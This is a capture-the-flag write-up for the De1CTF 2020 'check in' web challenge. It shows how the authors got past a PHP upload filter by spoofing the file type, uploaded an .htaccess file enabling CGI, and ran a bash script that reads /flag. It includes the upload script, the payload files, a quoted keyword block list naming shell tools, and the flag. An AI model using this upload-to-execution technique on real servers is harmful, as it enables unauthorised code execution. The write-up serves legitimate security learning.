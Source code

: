 # check in (web, 120pts)

> welcome to 2020De1ctf
>
> http://129.204.21.115

The site allows you to upload a single file to the server.

![webpage](./webpage.png)

The headers from the server indicate this we're working with PHP:

```
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
```

We attempted to upload several file types and came up with the following rules:

* PHP file extensions are banned (`filename error`)
* You can upload any other extension by setting the file type in the request to `image/png` (if you don't you get `filetype error`)
* Files cannot contain `perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet`
* You are allocated a random directory that all your files are uploaded to

Knowing this, we can upload a file that doesn't have an image extension by changing its content type to an image:

```js
const axios = require('axios');
const FormData = require('form-data');

const uploadFile = (contents, filename) => {
  const data = new FormData();
  data.append('fileUpload', contents, {
    filename,
    contentType: 'image/jpeg'
  });
  data.append('upload', 'submit');

  return axios.post('http://129.204.21.115/index.php', data, { headers: data.getHeaders() })
    .then(res => console.log(res.data))
    .catch(console.error);
};

uploadFile('test', 'test.txt');

// Your dir : uploads/d22230980be937c106887cabaf8507aa 
```

Navigating to `http://129.204.21.115/uploads/d22230980be937c106887cabaf8507aa/test.txt` returns `test` as expected.

We now have the ability to upload any non-PHP files but the files are echoed back to us so we can't execute anything.

We stumbled around here for a while before realising that the server is running [`Apache HTTP Server`](https://httpd.apache.org/)
and `.htaccess` files allow you to override configuration for the specific directory.  This makes sense considering all our files
are uploaded to the same directory.

Reading the [.htaccess documentation](https://httpd.apache.org/docs/2.4/howto/htaccess.html#cgi) we find that you can enable CGI
execution, so we should be able to execute a bash script and search for the flag.  Note that you need to make sure your script
[outputs a Content-Type header](https://httpd.apache.org/docs/trunk/howto/cgi.html#writing).

`.htaccess`
```
Options +ExecCGI
AddHandler cgi-script .sh
```

`solve.sh`
```shell script
#!/bin/bash
echo "Content-Type: text/plain"
echo ""
ls -lah /
exit 0
```

Uploading these files and accessing the bash script shows us the flag is at `/flag`:

```
total 80K
drwxr-xr-x   1 root root 4.0K May  4 08:15 .
drwxr-xr-x   1 root root 4.0K May  4 08:15 ..
-rwxr-xr-x   1 root root    0 May  4 08:15 .dockerenv
-rw-r--r--   1 root root  12K Oct  1  2019 anaconda-post.log
lrwxrwxrwx   1 root root    7 Oct  1  2019 bin -> usr/bin
drwxr-xr-x   3 root root 4.0K May  1 11:09 boot
drwxr-xr-x   5 root root  340 May  4 08:15 dev
drwxr-xr-x   1 root root 4.0K May  4 08:15 etc
-rw-r-xr-x   1 root root   42 May  1 13:17 flag
...
```

Change `ls -lah /` to `cat /flag` and reupload the script to get the flag:

```
De1ctf{cG1_cG1_cg1_857_857_cgll111ll11lll}
```
